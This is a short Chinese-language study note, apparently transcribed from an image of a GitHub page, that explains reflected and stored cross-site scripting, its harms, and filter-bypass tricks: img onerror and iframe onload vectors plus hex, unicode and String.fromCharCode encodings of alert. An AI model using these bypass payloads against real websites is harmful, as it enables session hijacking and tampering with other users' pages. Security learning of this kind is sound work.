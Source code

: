 反射型XSS：恶意js通过URL参数或者其他输入直接反射到网页执行，用户点击一次恶意链接，脚本执行一次。

存储型XSS：攻击者通过留言板、评论、个人信息填写等输入途径，将恶意js代码存储到网站服务器中，当其他用户访问包含恶意代码的页面时，服务器从数据库中读取数据，并将其嵌入到返回的网页中，用户浏览器解析并执行其中的恶意js。

#### 危害

1.劫持用户会话

2.劫持用户浏览器

3.篡改网页内容

4.重定向到恶意网站

#### 绕过姿势？

##### script关键字被绕过

1.大小写

2.嵌套双写

3.img标签突破

```html
<img src=""onerror="alert('xss')">
<img/src/onerror=alert(1)>
<img/src='a'onerror=[1].find(alert)>
```

4.iframe标签

```html
<iframe onload=alert(1)>
```

##### alert被过滤

1.编码方式

eval+16进制编码

```html
<img src="1" onerror=eval("\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29")></img>
```

2.编码格式

unicode编码

```html
<img src="1" onerror=eval("\u0061\u006c\u0065\u0072\u0074\u0028\u0027\u0075\u006e\u0069\u0063\u006f\u0064\u0065\u0027\u0029")></img>
```

String.fromCharCode

```html
<img src="1" onerror=eval(String.fromCharCode(97,108,101,114,116,40,39,83,116,114,105,110,103,46,102,114,111,109,67,104,97,114,67,111,100,10 1,39,41))></img>
```

